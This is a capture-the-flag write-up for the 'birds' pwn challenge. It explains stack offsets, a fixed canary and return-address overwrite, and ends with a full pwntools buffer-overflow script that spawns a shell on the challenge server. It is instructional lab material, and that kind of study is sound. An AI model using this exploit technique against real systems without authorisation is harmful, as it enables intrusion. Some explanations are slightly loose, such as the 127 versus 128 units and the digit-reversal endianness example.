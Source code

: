 ##### pwn challenge
Required Tools: 
- checksec
- gdb debugger
- Linux operating system or Windows Subsystem for Linux (WSL)
- pwntools

For this challenge, all that we need to do is find the distance between the buffer, the canary, and the return address at the end of main. After that, we just need to understand pwntools, how stack memory works, and how assembly works, and we can write a quick exploit script in python to get shell access to the remote server and print the flag.

### 1.  Finding all of our needed offsets
- We will use gdb to debug the **birds** executable. We will set two breakpoints. One at the instruction that takes place right after the buffer is filled, and another right on the RET instruction.
- Because this program is so simple you may be able to tell where to place both of these breakpoints by running the command **disas main** 
![main dissassembly](main%20disassembly.png)

We can go ahead and place our breakpoints  at the RET instruction, and at the cmpl assembly instruction
```
(gdb) b *0x40125d
Breakpoint 1 at 0x40125d                                                                                                                               
(gdb) b *0x401285
Breakpoint 2 at 0x401285 
```

If you want to make sure you are understanding correctly and are placing your breakpoints at the right spot, you can open up the executable in ghidra or IDA pro and compare memory addresses with their places in the decompiled C code.

After analyzing the executable, we find **main** in the symbol tree under functions. We can see that, although gdb and Ghidra disassembled the birds executable a little differently, that we have the correct position for both the start of the if statement, and the return address for main
![[ghidra-1.png]]

While we are in gdb and ghidra, let us also figure out the address of the call to run the shell. We can skip straight to this address in memory to avoid having to call a gadget.

Let's first disassemble win() in gdb, find the address we think is the system call to run the shell, and then verify we are correct with ghidra
 ![[win disassembly.png]]
It appears that the system call in **win** happens at 0x4011e6 in memory. And we can verify this in ghidra by finding **win** in the Symbol Tree
![[win breakpoint.png]]

**WATCH OUT!**

If we assumed that this memory address is where we should jump to in order to execute our shell system call, we would be mistaken! We have to remember that function calls require setup in assembly. The system function call requires an argument  (a command). Recall that in linux x86-64 assembly, RDI is a functions first argument, followed by RSI, RDX , RCX, and so on. This means that RDI must be filled with the system command '/bin/sh' before the system call, otherwise the function call will fail or behave unpredictably. 

From looking at ghidra's visual debugger, we can see that inside of the IF statement there are 2 lines of preparation before the system call is made. This means we should override main's return address with **0x4011dc** , which will bring us right to our shell system call.
![[Assembly Preparation.png]]

Ok, so now it's time to run birds with the breakpoints we have set. 
1. On our first breakpoint, we are trying to determine the distance between the buffer and the canary
2. On our second breakpoint, we are trying to find the return address of main, so that we can find the distance between the canary and the return address.

When we run birds in gdb, we are prompted to fill the buffer. Go ahead and fill the buffer with 64 characters of any kind. Each character is a byte, that's why the buffer size and the character count is the same. In my debugging session I put in 64 A's.

Feel free to copy/paste

```AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ```

Once you press enter, you will be stopped at our first breakpoint. 

At this breakpoint we want to examine the stack to see where the buffer ends and the canary begins. To inspect the stack, run the below command:
**x/127wx $rsp**
![[stack-screenshot.png]]
- Lets break down the above GDB command:
	- x/ -> examine -> used to inspect memory
	- 128 -> Specifies the number of units to examine, in this case, 128 units
	- w -> Stands for "word", which means each unit is 4 bytes / 32 bits
	- x -> Specifies the format, which in this case is hexadecimal
	- $rsp Refers to the stack pointer register
	- All of the A's here display as 0x41, because the ASCII representation of A is 0x41 in hexadecimal (65 in decimal)

Since each group of data displayed here is 4 bytes, we can tell that there are **12 bytes of data** in between the buffer and the canary

Let's keep this screenshot in mind and continue to the next breakpoint. We can continue by typing **c**

Once we break at the RET instruction, all we have to do is step one instruction forward and find the contents of RIP. Recall that RIP is the instruction pointer. Because we broke right before RET, if we step one instruction forward with the command **stepi**, the next instruction will be where we are returning to, AKA the return address of main.

If we run the command **info stack frame**, we can find the contents of RIP , and try and find this address on the stack that we took a screenshot of before.
![[RIP Contents.png]]

We found that the return address is 8 bytes away from the canary!

![[stack-screenshot-Highlights.png]]

We now know everything we need in order to write our pwntools script.

We can take advantage of pwntools p32() and p64() functions to add our canary and return address data to the payload, as the data needs to be changed from big endian to little endian format in order for the CPU to read it properly.

pwntools script:

```
from pwn import *

# -- PAYLOAD CREATION -- #
payload = b"A"*64
payload += b"B" * 12
payload += p32(0xDEADBEEF)
#payload += b"\xef\xbe\xad\xde" <- what the canary ends up as

payload += b"C" * 8
payload+= p64(0x00000000004011dc)
#payload += b"\xdc\x11\x40\x00\x00\x00\x00\x00" <- what the ret addr ends up as

print(payload)

# ---------------------- #


# EXECUTABLE CONNECTION #

# If you are connecting to a local process, use the below

#p = process('./birds')
#p.sendline(payload)
#p.interactive()

# If you are connecting to a remote server, use the below

target_host = "tjc.tf"
target_port = 31625

conn = remote(target_host, target_port)
conn.recvuntil("wrong!\n")
conn.sendline(payload)
conn.interactive()

# --------------------- #
```

Explanation of big -> little endian conversion

Recall that in big endian format, numbers to the left are more significant than numbers on the right. Humans use big endian number formatting.

In little endian format, numbers to the right are more significant than numbers to the left.

For example, consider the big endian number 123. In little endian, that number would be written as 321. But they refer to the same value.

gdb converts stack memory from little endian to big endian for readability purposes. But when we perform our buffer overflow attack, we have to make sure the data ends up on the stack in little endian format.

However, each character/byte is represented with two hexidecimal digits. These two digits don't change order. ![[big-little-endian.png]]

Putting the connection in interactive mode allows the user to run shell commands.#

